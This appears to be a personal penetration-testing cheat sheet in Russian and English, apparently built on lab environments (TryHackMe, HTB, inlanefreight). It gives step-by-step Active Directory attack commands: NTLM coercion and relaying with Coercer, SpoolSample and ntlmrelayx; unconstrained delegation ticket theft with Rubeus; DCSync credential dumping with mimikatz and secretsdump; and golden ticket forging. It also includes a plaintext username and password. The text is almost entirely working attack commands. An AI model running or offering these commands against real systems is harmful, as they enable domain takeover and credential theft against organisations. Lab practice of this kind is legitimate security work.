   		на своем хосте

    		proxychains  coercer coerce -l 192.168.134.24 -t 192.168.134.12 -u s.ivanov -p DgdCQTghHGA2ad -d domain.local


на своем хосте запускаем ntlmrelay  м слушаем серевер 1 -----   сервер 2   админ для сервер 1 

	python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 (IP)" -debug   

на компроментате запускаем

	C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc (IP) "Attacker IP (мой 3 IP)"



# Unconstrained delegation (Windows)

		.\Rubeus.exe tgtdeleg /nowrap
	$  base64 ticket.kirbi.b64 -d > ticket.kirbi
	$ impacket-ticketConverter ticket.kirbi ticket.ccache
	$ export KRB5CCNAME=ticket.ccache
	$ impacket-secretsdump licordebellota.htb/pivotapi\$@pivotapi.licordebellota.htb -dc-ip 10.10.10.240 -no-pass -k

	# TGT Unconstrained delegation
	(Нужен rubeus и mimikatz и printspooler)
	------Нужен скомпроментированный сервер службы sql или еще чего и админ права на нем------

	1. Получить TGT привелигированного юзера или компутера

	.\Rubeus.exe monitor /interval:5 /nowrap

	.\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local

  	2. Обновляем его в память
   
	.\rubeus.exe renew /ticket:<............> /ptt
 	
	3. Мимикатзом делаем DCSYNC

  	lsadump::dcsync /user:Administrator

	4. Крафтим TGT

   	.\Rubeus asktgt /rc4:hashhhh /user:Administrator /ptt

	5. Юзаем
    	 dir \\dc01.domen.local\c$\flag.txt
    
	6. Если уже сть билеты в памяти то можно просто

  	./rubeus.exe dump /nowrap
		И ЗАТЕМ
	.\rubeus.exe renew /ticket:<............> /ptt

	
# golden ticket (Windows)
	***** через мимикатз (Windows)
		нужны..
    	Domain Name
     		whoami /all
    	Domain SID
    		Import-Module .\PowerView.ps1
		Get-DomainSID
  		whoami /all
        KRBTGT's hash
	в мимкатз --> .\mimikatz.exe --> lsadump::dcsync /user:krbtgt /domain:inlanefreight.local
 	Username to Impersonate ---> administrator
  